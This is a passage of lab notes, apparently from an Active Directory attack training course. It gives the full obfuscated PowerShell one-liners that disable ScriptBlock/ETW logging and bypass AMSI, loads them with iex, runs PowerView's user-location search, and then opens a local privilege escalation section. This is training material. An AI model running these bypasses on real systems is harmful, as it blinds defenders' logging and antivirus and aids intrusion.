 ???

![Run as administrator](learning_objectives_run_as_administrator.png)

![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat`:
```
[SNIP]
```

`type C:\AD\Tools\sbloggingbypass.txt`:
```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

`iex (type C:\AD\Tools\sbloggingbypass.txt)`

`type C:\AD\Tools\amsibypass.txt`:
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

`iex (type C:\AD\Tools\amsibypass.txt)`

`Import-Module C:\AD\Tools\PowerView.ps1`

`Find-DomainUserLocation`:
```
UserDomain      : DCORP-STD422🖥️
UserName        : Administrator👤
ComputerName    : dcorp-std422.dollarcorp.moneycorp.local
IPAddress       : 172.16.100.22
SessionFrom     :
SessionFromName :
LocalAdmin      :
```

---

### Local Privilege Escalation

#### Local Privilege Escalation | Feature Abuse (with PowerUp, winPEAS, PrivEscCheck)

**Local Privilege Escalation | PowerUp**
